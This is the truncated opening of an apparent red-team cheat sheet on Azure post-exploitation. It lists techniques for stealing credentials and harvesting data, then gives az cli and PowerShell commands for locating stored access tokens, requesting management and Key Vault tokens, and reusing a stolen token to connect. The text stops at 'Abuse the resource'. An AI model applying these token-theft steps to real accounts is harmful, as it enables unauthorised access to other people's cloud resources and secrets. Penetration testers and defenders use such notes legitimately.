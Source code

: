 # Post exploitation
## Index
* [Getting credentials](#Getting-credentials)
  * [Stealing tokens](#Stealing-tokens)
  * [Mimikatz](#Mimikatz)
  * [Visual Studio Code](#Visual-Studio-Code)
  * [Publish settings in files](#Publish-settings-in-files)
  * [Storage explorers](#Storage-explorers)
  * [Web config and App config files](#Web-config-and-App-config-files)
  * [Internal repositories](#Internal-repositories)
  * [Command history](#Command-history)
* [Data harvesting](#Data-harvesting)
  * [Email](#Email)
  * [Azure SQL](#Azure-SQL)
  * [Compliance search](#Compliance-search)
* [Metadata Service URL](#Metadata-Service-URL)

## Getting credentials
### Stealing tokens
### Stealing tokens from az cli
- az cli stores encrypted access tokens in the directory ```C:\Users\<username>\.Azure```
  - Before 2.30.0 – January 2022 az cli stores access tokens in clear text in ```accessTokens.json```
  - https://github.com/Azure/azure-cli/issues/19707 
- To clear the access tokens, always use az logout

#### Check which account is connected
```
az account show
```

#### Check permissions the account has
```
az resource list
```

#### Get access token
```
az account get-access-token --resource https://management.azure.com
az account get-access-token --resource https://vault.azure.net
```

#### Connect with tokens
```
$mgmtToken = <TOKEN>
$keyvaultToken = <TOKEN>
Connect-AzAccount -AccessToken $mgmtToken -KeyVaultAccessToken $keyvaultToken -AccountId <ID>
```

#### Abuse the resource
